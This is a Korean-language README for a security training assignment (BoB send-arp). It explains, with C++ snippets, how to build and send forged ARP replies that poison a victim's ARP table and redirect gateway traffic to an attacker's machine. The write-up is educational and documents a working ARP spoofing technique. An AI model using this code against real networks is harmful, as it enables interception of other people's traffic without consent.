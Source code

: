 # BoB 14기 보안제품개발트랙 과제 : send-arp


## 과제

Sender(Victim)의 ARP table을 변조하라.

## Vedio

[YouTube Link](https://youtu.be/Md7tiPvbm4g)

### 실행

```cpp
syntax : send-arp <interface> <sender ip> <target ip> [<sender ip 2> <target ip 2> ...]
sample : sudo ./send-arp wlan0 10.3.3.16 10.3.3.1

```

---

- Victim(Sender)의 ARP 테이블을 조작하여 Gateway(Target)의 MAC 주소를 Attacker의 MAC으로 바꾸는 **ARP 스푸핑** 공격을 수행
- tech: `pcap_sendpacket()`으로 패킷 전송, `pcap_next_ex()`로 응답 수신

---

### 로직 설계

1. 공격자의 인터페이스에서 MAC 주소를 읽음
2. sender IP가 사용하는 MAC 주소를 얻기 위해 ARP Request를 브로드캐스트로 전송
3. sender의 ARP Reply를 수신하여 sender의 MAC 주소를 획득
4. 위 정보를 바탕으로 위조된 ARP Reply(ARP 감염 패킷)을 sender에게 전송
5. sender는 target IP에 대해 attacker MAC을 매핑함 → **ARP 테이블 변조 성공**

---

### 주요 구조체 설명

### 코드 설명

### 헤더 구조 설명 (`send-arp.h`)

### Ethernet 헤더 (`eth_hdr_t`)

```cpp
#define MAC_LEN 6
#define IP_LEN 4

```

MAC 주소(6바이트)와 IPv4 주소(4바이트)의 길이 정의

```cpp
struct eth_hdr_t {
    uint8_t dmac[6]; // 목적지 MAC
    uint8_t smac[6]; // 출발지 MAC
    uint16_t type;   // 상위 프로토콜 (0x0806: ARP)
};
```

`uint8_t`는 정확히 1바이트

MAC 주소는 6바이트이므로 `uint8_t[6]`로 표현

ARP를 위해 type 필드는 0x0806으로 설정된다. `#pragma pack(1)`은 패딩 없이 구조체를 메모리에 붙여 저장하도록 한다.(네트워크 패킷은 바이트 단위로 정해진 형식이기 때문)

### ARP 헤더 (`arp_hdr_t`)

```cpp
struct arp_hdr_t {
    uint16_t hrd;     // 하드웨어 타입 (1: Ethernet)
    uint16_t pro;     // 프로토콜 타입 (0x0800: IPv4)
    uint8_t hln;      // MAC 길이 (6)
    uint8_t pln;      // IP 길이 (4)
    uint16_t op;      // 1: request, 2: reply -> 오퍼레이션코드
    uint8_t smac[6];  // 출발지 MAC
    uint8_t sip[4];   // 출발지 IP
    uint8_t tmac[6];  // 목적지 MAC
    uint8_t tip[4];   // 목적지 IP
};

```

`op` 필드로 request/reply를 구분한다.

### send-arp.cpp

### `get_mac()`

```cpp
bool get_mac(const std::string& iface, uint8_t* mac)

```

`/sys/class/net/<iface>/address`에서 MAC 주소를 문자열로 읽고, `std::stoi(..., 16)`으로 16진수 문자열을 숫자로 변환해 byte 배열에 저장. 

`:` 제거 후 2자리씩 나눠 파싱

`pcap_open_live()`

```cpp
pcap_t* handle = pcap_open_live(dev, BUFSIZ, 1, 1, errbuf);
```

`BUFSIZ`: 캡처 버퍼 사이즈
`1`: promiscuous 모드로 설정 (내 MAC이 아닌 패킷도 수신 하기 위해서)
`1`: timeout(ms), 너무 짧으면 패킷을 못 받을 수 있기 때문

---

### ARP Request 패킷 구성

```cpp
memset(eth->dmac, 0xff, MAC_LEN); // 브로드캐스트
memcpy(eth->smac, attacker_mac, MAC_LEN);
eth->type = htons(0x0806);

 
```

`host to network short(htons)` : 네트워크는 Big Endian, 시스템은 Little Endian일 수 있으므로 명시적 변환을 하기 위해서

```cpp
arp->op  = htons(1); // ARP Request
inet_pton(AF_INET, target_ip, arp->sip); // source는 내가 target이라 가정
inet_pton(AF_INET, sender_ip, arp->tip); // 목적지는 sender

```

ARP Request는 이 IP 주소를 가진 장치에게  MAC 주소가 무엇인지를 묻는다.

`arp->op = htons(1);`-> ARP Request(요청) 패킷임을 명시하는 부분

***ARP 프로토콜에서 op (Operation) 필드**

| 값 | 의미 |
| --- | --- |
| 1 | ARP Request |
| 2 | ARP Reply |

*ARP 패킷은 네트워크 바이트 순서(Big Endian) 를 사용함

**ARP 요청을 sender에게 한 이유** → 목적은 sender의 MAC 주소를 얻는 것.

즉, `target_ip`에서 `sender_ip`의 MAC을 알아내는 요청을 broadcast로 뿌려 주었다. 

---

### ARP Reply 수신 (sender의 MAC 획득)

```cpp
	while (true) {
		int res = pcap_next_ex(handle, &header, &pkt);
		if (res != 1) continue;

		auto* r_eth = (eth_hdr_t*)pkt;
		auto* r_arp = (arp_hdr_t*)(pkt + sizeof(eth_hdr_t));

		if (ntohs(r_eth->type) == 0x0806 &&
			ntohs(r_arp->op) == 2 &&
			memcmp(r_arp->sip, arp->tip, IP_LEN) == 0) {
			memcpy(sender_mac, r_arp->smac, MAC_LEN);
		break;
			}
	}

```

원하는 ARP Reply가 올 때까지 while문으로 반복해주었다. 

ARP Reply 필터링해 주었다. 

패킷을 캡처하는 `pcap_next_ex()` 를 반복해서 MAC 주소를 추출한다. 

EtherType이 0x0806인지를 확인하고, ARP Reply인지(2) 확인한 뒤, 보내는 쪽 IP가 우리가 ARP 요청한 대상(sender_ip)인지 확인한다. (`sip == sender_ip`이면 응답 보낸 건 sender이다.)

---

### 위조된 ARP Reply 전송 (감염 패킷)

```cpp
arp->op  = htons(2); // ARP Reply
memcpy(arp->smac, attacker_mac, MAC_LEN);  // 출발 MAC = attacker (위조)
inet_pton(AF_INET, target_ip, arp->sip);   // 출발 IP = target (위조)
memcpy(arp->tmac, sender_mac, MAC_LEN);    // 목적 MAC = sender
inet_pton(AF_INET, sender_ip, arp->tip);   // 목적 IP = sender

```

sender에게 보내는 위조된 패킷이다.

`arp->op = htons(2);`-> ARP Reply(응답) 패킷임을 명시하는 부분이다. 

2를 넣으면 이 패킷이 ARP Reply임을 나타낸다. arp reply 패킷으로 위장해야 하므로 해당 코드를 사용한다.

---

### knowledge

| 구성 요소 | 크기 (bytes) |  
| --- | --- | 
| Ethernet Header | 14 bytes |  
| ARP Header | 28 bytes |  
| 합계 | **42 bytes** |

---

### **Reference**

[Attacker(자신) Mac 주소 값를 알아 내는 방법]

https://github.com/YOGYUI/Sniffets/tree/main/linux_get_mac_address/src

GPT, Claude

https://chatgpt.com/

https://claude.ai/

[op 1,2]

https://whatdocumentary.tistory.com/52

### Issue

---

ARP Request 보냈는데 되지 않았다. 알고보니, `op = 1` 을 그냥 넣고, `htons()` 을 넣지 않아서였다. ARP op 필드가 0x0100이 된 것이다.
